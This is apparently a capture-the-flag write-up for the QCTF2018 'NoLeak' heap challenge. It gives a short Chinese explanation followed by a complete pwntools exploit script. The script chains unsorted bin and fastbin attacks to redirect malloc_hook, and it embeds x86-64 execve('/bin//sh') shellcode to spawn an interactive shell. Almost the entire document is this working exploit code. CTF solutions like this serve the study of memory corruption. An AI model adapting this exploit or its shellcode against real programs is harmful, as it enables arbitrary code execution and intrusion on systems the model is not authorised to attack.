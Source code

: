 # QCTF2018 NoLeak
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题主要利用unsorted bin attack和fastbin attack，难点主要就在没有信息可以输出，无法通过常规的方法leak出libc基址来利用，看了官方wp之后发现竟然还可以通过修改libc最低字节来定位到malloc_hook进行修改。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>其他难点也没啥了，那就直接放脚本了。</font></br>

Exploit
======

```python
from pwn import *

DEBUG=1

p=process('./NoLeak')

if DEBUG==1:
    context.log_level='debug'
    gdb.attach(p)

def rv(c):
    p.recvuntil(c)

def sd(c):
    p.send(c)

def sl(c):
    p.sendline(c)

def add(size,c):
    rv('choice :')
    sl('1')
    rv('Size: ')
    sl(str(size))
    rv('Data: ')
    sd(c)

def delete(index):
    rv('choice :')
    sl('2')
    rv('Index: ')
    sl(str(index))

def update(index,size,c):
    rv('choice :')
    sl('3')
    rv('Index: ')
    sl(str(index))
    rv('Size: ')
    sl(str(size))
    rv('Data: ')
    sd(c)

def malloc_pwn():
    rv('choice :')
    sl('1')
    rv('Size: ')
    sl('2')

#-------------------------
# no leak this time,so use
# unsorted bin attack to
# edit the libc's last bit to
# overwrite the malloc_hook with 
# shellcode's address

shellcode='\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

add(0x68,'\n') 
add(0x98,'\n') 
add(0x68,'\n') 
add(0x98,'\n') 

delete(0)
delete(1)

update(1,0x10,p64(0x601060)*2)
update(0,8,p64(0x601060+13))

add(0x98,'\n') 
add(0x68,'\n') 
add(0x68,'a'*3+p64(0x601070)+p64(0x601040))

update(8,1,'\x10')
update(9,len(shellcode),shellcode)
update(6,8,p64(0x601040))

malloc_pwn()
p.interactive()

```